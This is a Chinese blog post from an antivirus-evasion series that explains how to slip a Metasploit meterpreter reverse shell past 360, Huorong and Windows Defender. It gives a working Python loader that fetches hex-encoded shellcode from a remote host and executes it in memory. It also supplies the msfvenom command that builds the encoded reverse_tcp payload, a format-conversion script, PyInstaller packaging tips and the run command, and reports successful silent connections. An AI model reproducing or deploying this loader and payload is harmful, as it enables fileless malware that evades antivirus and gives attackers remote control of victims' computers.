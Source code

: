 # MSF免杀360+火绒上线(三)


<meta name="referrer" content="no-referrer" />

## 前言

这是一个免杀系列文章。

因为自己二进制方面就是个弟弟，所以并不敢冒然称之为教程，只是记录自己在免杀过程中的各种坑以及效果对比。

其实各种办法已经在大佬们的文章中多多少少都有提到过，但是大多数都是讲述一下思路后一笔带过，然而实现的过程中往往会有各种坑。所以想着写一个系列文章，能够让像我这样的WEB选手可以用最简单的办法快速BypassAV。

记录的过程也是自己提高的过程，如果有好的思路可以联系我跟我一起交流，如果有说的不对的地方还望不吝赐教。

本文主要讲利用远程shellcode加载器实现文件不落地免杀。

## 正文

看了倾旋大佬[静态恶意代码逃逸](https://payloads.online/archivers/2019-11-10/1)系列文章后也想写一个自己的shellcode加载器，但是觉得实际中其实不需要专门起一个服务来连接msf生成shellcode，作为本人来说shellcode也不需要天天换，手工生成就可以了。

后来又看到了K8大佬的[文章](https:_www.cnblogs.com_k8gege_p_11223393)，采用的是py+命令行传入hex编码后的shellcode实现文件不落地免杀。

但是本人觉得命令行传入一长串东西不太方便，因为如果进行多重编码处理后的shellcode会变得比较大，理想的办法是把shellcode放到一个地方来远程加载，这也是本文的思路。

### 测试环境

系统环境：kali，win7 (x64)，win10(x64)

测试杀软： 360+火绒+defender 防护全开

免杀工具： msfvenom pyinstaller

注：为了模拟真实环境，360跟火绒全部开启文件云上传。

文中测试方法如果没有特殊说明均为防护状态全开情况下静默上线。

### 源码

采用的py来作为加载器，魔改了一下k8的脚本，使用requests模块来访问远程资源，实现shellcode的加载。

**注意运行环境为python2**

remote.py

```
import ctypes
import sys
import requests
result=requests.get(url=sys.argv[1]).text.strip('\n')
shellcode=bytearray(result.decode("hex"))
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
  
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
  
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))
  
ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))
  
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

### 编译中的坑

#### 必须用py2的pyinstaller打包

再说一遍这是py2写的，因为py3对于str跟byte的转换很麻烦

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900420020-c29de3d0-95db-4189-875a-af1ba06f3e98.png)

所以我们打包的时候也必须用python2的pyinstaller来打包。

这里就有坑了，如何区分py2的pyinstaller跟py3的pyinstaller。

我本机是python2跟3都用pip装了pyinstaller，直接在命令行下输入pyinstaller打包会默认是3的版本。

我的办法是找到3的script目录下，把3的pyinstaller.exe重命名为pyinstaller3.exe，这样就可以把2跟3的打包分开了。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900420109-9d4ac44d-2881-4fde-bbfe-03668d433321.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900420197-4b283220-4296-4bf3-91be-9383b5b65353.png)

#### 不能有多余换行

shellcode可以放在你的vps上，为了方便我是直接放在github上。

测试的时候一直出现这个错误，后来查了一下才知道是放shellcode的时候最后多了一个换行。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900420285-2f1a56a7-7175-41ba-90a6-ae785494af2a.png)

正确做法是粘贴好shellcode后显示文件只有一行

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900420376-36a1151c-a2ce-4c98-a987-8c0f404dded6.png)

### 使用方法

首先msf生成shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.145.128  LPORT=443 -e x86/shikata_ga_nai -i 2 -f py -b '\x00'
```

然后需要转换一下格式，2跟3运行均可

format.py

```
buf =xxxxxx 你的shellcode
import binascii  
print(binascii.b2a_hex(buf).decode())
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900420489-84fd336e-7920-4b71-be3b-b8eb6d6fb414.png)

再把shellcode放到你的github上，注意上面提到的坑

然后找到raw，复制地址。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900420583-d7c70106-3b8d-42ef-b038-c7aa0821745c.png)

运行命令

```
remote.exe http://xxxxx/shellcode.txt
```

### 本机win10上线测试

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900420678-f1315c12-0068-4589-9068-0c755a212d34.png)

### win7 360+火绒上线测试

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900420798-63babdfd-e081-4894-9e34-174da240db65.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900420892-fd1abc1b-80bc-4a17-abe3-b7b820e63dbb.png)

### defender上线测试

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900420988-7129c8ca-708e-4bb6-9a60-7191c39e1433.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900421080-f4463b5a-0f86-4f28-8479-8c9ec5bb93fb.png)

## 最后

测试结果还是比较满意的，并且远程加载可以随意变换payload，不需要换了C2就得重新做免杀。

文中的hex只是一个例子，你还可以加一层base64之类的，这个就看大家自己发挥了。


